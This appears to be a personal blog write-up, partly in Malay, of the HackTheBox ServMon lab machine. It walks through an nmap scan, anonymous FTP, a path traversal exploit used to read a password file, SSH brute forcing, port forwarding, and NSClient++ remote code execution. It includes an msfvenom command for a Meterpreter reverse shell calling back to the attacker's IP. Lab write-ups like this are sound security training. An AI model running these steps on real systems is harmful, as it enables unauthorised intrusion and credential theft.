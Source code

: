 ```yaml
---
title: HackTheBox - ServMon
date: 2025-06-03 01:00:00 +0800
categories:
  - HackTheBox
tags:
  - writeups
---
```

Kembali lagi dengan tingkap apa hari ini.

Today we do HackTheBox ServMon. It's rare for me to do HTB actually. To make things easy, we will use guided mode.

![](assets/img/2025-06-03-HTB-ServMon/ServMon.png)

# Nmap Scan

Let's start with standard nmap scan.

```
nmap -sC -sV 10.129.242.236
```

![](assets/img/2025-06-03-HTB-ServMon/nmap.png)

Only port scan

```
┌──(kali㉿kali)-[~/HackTheBox/HTB_ServMon]
└─$ nmap -Pn 10.129.242.236    
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-02 12:34 EDT
Nmap scan report for 10.129.242.236
Host is up (0.013s latency).
Not shown: 991 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
5666/tcp open  nrpe
6699/tcp open  napster
8443/tcp open  https-alt
```

**Question 1**

![](assets/img/2025-06-03-HTB-ServMon/q1.png)

# FTP Access

There are FTP service that can access anonymously. Let's login and grab anything we can. We found there are 2 users called Nadine and Nathan, each user have a file in the directory, let's get both file.

![](assets/img/2025-06-03-HTB-ServMon/ftp.png)

**Question 2**

![](assets/img/2025-06-03-HTB-ServMon/q2.png)

**Users/Nadine/Confidential.txt**

![](assets/img/2025-06-03-HTB-ServMon/confidential.png)

**Users/Nathan/Notes to do.txt**

![](assets/img/2025-06-03-HTB-ServMon/todo.png)

From both of this file, we get some information: 
- There are two possible username Nadine and Nathan
- There are Passwords.txt in Nathan Desktop folder

**Question 3**

![](assets/img/2025-06-03-HTB-ServMon/q3.png)

# Web Access

Next, let's access the webpage on port 80. There are services called NVMS-1000 with a login page. 

![](assets/img/2025-06-03-HTB-ServMon/web-nvms.png)

**Question 4**

![](assets/img/2025-06-03-HTB-ServMon/q4.png)

From a little bit searching, we found that, there are CVE that may lead to path traversal from this system. 

![](assets/img/2025-06-03-HTB-ServMon/google.png)

**Question 5**

![](assets/img/2025-06-03-HTB-ServMon/q5.png)

I use automatic way for the path traversal exploitation. WE can use msfconsole as there are exploit of CVE-2019-20085 module.

![](assets/img/2025-06-03-HTB-ServMon/msf.png)

What we need now is file path that we want to access. As we know that there are password file in Nathan desktop, so we can try to access it.

```
/Users/Nathan/Desktop/Passwords.txt
```

![](assets/img/2025-06-03-HTB-ServMon/getfile.png)

![](assets/img/2025-06-03-HTB-ServMon/password.png)

After retrieve the Passwords.txt, I try to bruteforce user Nathan for the password. I try both SSH and NVMS login but failed. Until I realize the question state that the it for SSH. As Nathan user are failed. I try for Nadine and we successfully get the SSH password for Nadine.

![](assets/img/2025-06-03-HTB-ServMon/hydra.png)

**Question 6**

![](assets/img/2025-06-03-HTB-ServMon/q6.png)

So now, let's login to user Nadine. And retrieve our user flag.

![](assets/img/2025-06-03-HTB-ServMon/userflag.png)

# Other Service Exploit

Next, there are other service that we need to exploit in order to gain higher privilege. We also need access from user Nadine for this exploit to work. Let's enumerate it. The service is on port 8443.

![](assets/img/2025-06-03-HTB-ServMon/nmap2.png)

![](assets/img/2025-06-03-HTB-ServMon/nsclient.png)

The service called NSClient++

**Question 8**

![](assets/img/2025-06-03-HTB-ServMon/q8.png)

We can enumerate this service using Nadine user. From my finding, there are program folder for this service in Program Files and there are .ini configuration file.

![](assets/img/2025-06-03-HTB-ServMon/inifile.png)

**Question 9**

![](assets/img/2025-06-03-HTB-ServMon/q9.png)

![](assets/img/2025-06-03-HTB-ServMon/version.png)

**Question 10**

![](assets/img/2025-06-03-HTB-ServMon/q10.png)

We found the password to login into NSClient++. But in order to login, we need to login from 127.0.0.1 as the allowed hosts are set to be only localhost can access using the undocumented key. I actually little bit stuck here. After some research (reading writeups XD), we need to port forward the service to our host. Below is the port forward command guide.

```
ssh -L <host_port>:<target_host>:<forwarded_port> user@remote

host_port: The port on your local machine (host).
target_host: Usually localhost — the server's own address.
forwarded_port: The port on the remote server you want to reach.
```

```
ssh -L 8443:127.0.0.1:8443 nadine@10.129.242.236
```

Now we are able to access the NSClient++ dashboard.

![](assets/img/2025-06-03-HTB-ServMon/dashboard.png)

Next, I search a little bit about NSClient++ exploit. There are exploit script that we may use for authenticated remote code execution.

![](assets/img/2025-06-03-HTB-ServMon/searchsploit.png)

Searchsploit give us the python exploit script that we may use to get RCE. The script also straight forward for us to follow.

![](assets/img/2025-06-03-HTB-ServMon/exploitscript.png)

Now what we need is payload that will connect the machine to our host. Yeah I know usually we can use nc.exe, but I already try it and it say nc are not compatible with this mahine, ughh. Now we do old way. Meterpreter Reverse TCP

![](assets/img/2025-06-03-HTB-ServMon/meme.png)

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform windows LHOST=10.10.14.52 LPORT=4444 -f exe > meow.exe
```

![](assets/img/2025-06-03-HTB-ServMon/msfvenom.png)

**Setup our listener**

![](assets/img/2025-06-03-HTB-ServMon/listener.png)

**Payload Delivery**

![](assets/img/2025-06-03-HTB-ServMon/pyhttp.png)

![](assets/img/2025-06-03-HTB-ServMon/deliver.png)

Now we can run the exploit script and provide command to start our payload.

![](assets/img/2025-06-03-HTB-ServMon/admin.png)

**Question 11**

![](assets/img/2025-06-03-HTB-ServMon/q11.png)

![](assets/img/2025-06-03-HTB-ServMon/root.png)

p.s. If you failed to achieve reverse shell, try to restart your box. So that all, thank youk.